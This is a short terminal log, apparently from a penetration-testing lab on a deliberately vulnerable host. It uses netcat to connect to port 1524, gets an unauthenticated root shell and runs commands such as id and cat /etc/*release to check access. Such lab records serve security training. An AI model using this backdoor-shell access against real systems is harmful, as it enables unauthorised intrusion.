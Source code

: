 ```
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Connected to 10.0.16.43:513.
whoami
Ncat: Connection reset by peer.
root@attackdefense:~# nc -nv 10.0.16.43 514
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Connected to 10.0.16.43:514.
ls
^C
```

```
root@attackdefense:~# nc -nv 10.0.16.43 1524
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Connected to 10.0.16.43:1524.
root@d1d6a9361621:/# whoami
whoami
root
root@d1d6a9361621:/# id 
id
uid=0(root) gid=0(root) groups=0(root)
root@d1d6a9361621:/# pwd
pwd
/
root@d1d6a9361621:/# cat /etc/*release
cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=8.04
DISTRIB_CODENAME=hardy
DISTRIB_DESCRIPTION="Ubuntu 8.04"
root@d1d6a9361621:/# ls
ls
bin
boot
cdrom
core
dev
etc
home
initrd
initrd.img
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
root@d1d6a9361621:/# cd /home
cd /home
root@d1d6a9361621:/home# ls
ls
ftp
msfadmin
service
user
```